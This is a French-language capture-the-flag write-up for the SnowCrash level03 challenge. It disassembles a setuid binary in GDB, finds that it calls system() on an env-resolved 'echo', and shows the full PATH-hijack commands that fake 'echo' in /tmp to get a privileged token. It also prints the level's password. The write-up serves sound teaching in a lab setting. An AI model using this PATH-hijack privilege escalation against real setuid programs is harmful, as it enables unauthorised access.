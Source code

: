 # 03 - Binary exploit: PATH

- On se connecte en tant que level03.
```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

```
level03@SnowCrash:~$ ./level03
Exploit me
```


- Un binaire nous a été laissé, il appartient à l'utilisateur flag03 et au groupe level03. De plus, les [bits de permission setuid et setgid](https://en.wikipedia.org/wiki/Setuid) sont activés. Examinons ce binaire de plus près avec [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     and    $0xfffffff0,%esp
   0x080484aa <+6>:     sub    $0x20,%esp
   0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    %eax,0x18(%esp)
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    %eax,0x1c(%esp)
   0x080484bf <+27>:    mov    0x18(%esp),%eax
   0x080484c3 <+31>:    mov    %eax,0x8(%esp)
   0x080484c7 <+35>:    mov    0x18(%esp),%eax
   0x080484cb <+39>:    mov    %eax,0x4(%esp)
   0x080484cf <+43>:    mov    0x18(%esp),%eax
   0x080484d3 <+47>:    mov    %eax,(%esp)
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    0x1c(%esp),%eax
   0x080484df <+59>:    mov    %eax,0x8(%esp)
   0x080484e3 <+63>:    mov    0x1c(%esp),%eax
   0x080484e7 <+67>:    mov    %eax,0x4(%esp)
   0x080484eb <+71>:    mov    0x1c(%esp),%eax
   0x080484ef <+75>:    mov    %eax,(%esp)
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave
   0x08048504 <+96>:    ret
End of assembler dump.
```


- Nous pouvons voir que le programme fait un appel à `<system@plt>` juste après avoir déplacé l'adresse `0x80485e0` au sommet de la stack.
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```


- Donc, le programme fait `system("/usr/bin/env echo Exploit me")`.

- En **bash**, `echo` est un built-in, mais pas en **sh**, on peut donc exploiter la variable d'environnement `PATH`.
```
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
```

```
level03@SnowCrash:~$ chmod +x /tmp/echo
```

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH
```

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```
level03@SnowCrash:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```